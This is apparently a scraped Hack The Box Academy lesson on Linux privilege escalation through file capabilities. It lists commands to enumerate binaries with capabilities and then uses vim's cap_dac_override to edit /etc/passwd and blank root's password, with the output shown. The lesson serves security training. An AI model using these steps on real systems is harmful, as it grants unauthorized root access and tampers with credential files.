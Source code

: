 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/51/section/1844
// Platform Version: V1
// Module ID: 51
// Module Name: Linux Privilege Escalation
// Module Difficulty: Easy
// Section ID: 1844
// Section Title: Capabilities
// Page Title: Linux Privilege Escalation
// Page Number: 11
-->

# Capabilities

**Module Name:** Linux Privilege Escalation **Page Number:** 11

#### LINUX PRIVILEGE ESCALATION

# Capabilities

#### Set Capability

```shell-session
[!bash!]$ sudo setcap cap_net_bind_service=+ep /usr/bin/vim.basic
```

## Enumerating Capabilities

#### Enumerating Capabilities

```shell-session
[!bash!]$ find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;

/usr/bin/vim.basic cap_dac_override=eip
/usr/bin/ping cap_net_raw=ep
/usr/bin/mtr-packet cap_net_raw=ep
```

## Exploitation

#### Exploiting Capabilities

```shell-session
[!bash!]$ getcap /usr/bin/vim.basic

/usr/bin/vim.basic cap_dac_override=eip
```

```shell-session
[!bash!]$ cat /etc/passwd | head -n1

root:x:0:0:root:/root:/bin/bash
```

```shell-session
[!bash!]$ /usr/bin/vim.basic /etc/passwd
```

```shell-session
[!bash!]$ echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
[!bash!]$ cat /etc/passwd | head -n1

root::0:0:root:/root:/bin/bash
```

# 

# 

#### Questions

####